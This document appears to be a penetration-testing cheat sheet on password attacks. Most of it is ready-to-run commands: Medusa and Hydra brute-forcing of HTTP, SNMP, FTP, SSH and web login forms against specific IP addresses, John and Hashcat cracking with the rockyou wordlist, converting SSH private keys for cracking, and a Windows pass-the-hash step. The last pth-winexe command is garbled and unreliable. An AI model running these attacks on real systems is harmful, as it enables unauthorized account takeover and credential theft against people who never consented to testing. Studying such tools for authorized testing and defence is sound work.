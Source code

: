 # Password attacks

#### `usr/share/wordlists`

### Medusa

Brute force basic http authorizations.

```text
medusa -h 10.11.1.219 -u admin -P password.txt -M http -m DIR:/admin -T 10
```

### Hydra

Can be used to brute force numerous services.

```text
hydra -P password.txt -v 10.11.1.210 snmp
hydra -l admin -P password.txt -v 122.168.31.219 ftp
hydra -l root -P password.txt 10.11.1.219 ssh
hydra -L users.txt -P password.txt 10.10.219.253 www-get /admin
```

#### \*\* Brute force http-post login forms

```text
Format: hydra -L <path to user wordlist> -P <path to password wordlist> <IP Address> http-post-form “<Login Page>:<Request Body>:<Error Message>"

Example: hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password!"
```

### John

```text
john <hash.txt> --wordlist=/usr/share/wordlists/rockyou.txt
```

#### SSH keys

To crack SSH key passwords convert the key to a hash, then crack using John.

```text
python ssh2john.py id_rsa > id_rsa.hash
```

### Hashcat

**Check for mode on wiki page**  [https://hashcat.net/wiki/doku.php?id=example\_hashes](https://hashcat.net/wiki/doku.php?id=example_hashes)

```text
hashcat -m (mode) -a 0 hash.txt Pass.txt
```

### Passing the hash \(Windows\)

Create environment variable SMBHASH, containing hash we want to pass

`export SMBHASH=hashvalue`

`Use pth-winexe to authenticate: pth-winexe -U administrator% //10.11.0.1.76.cmd`

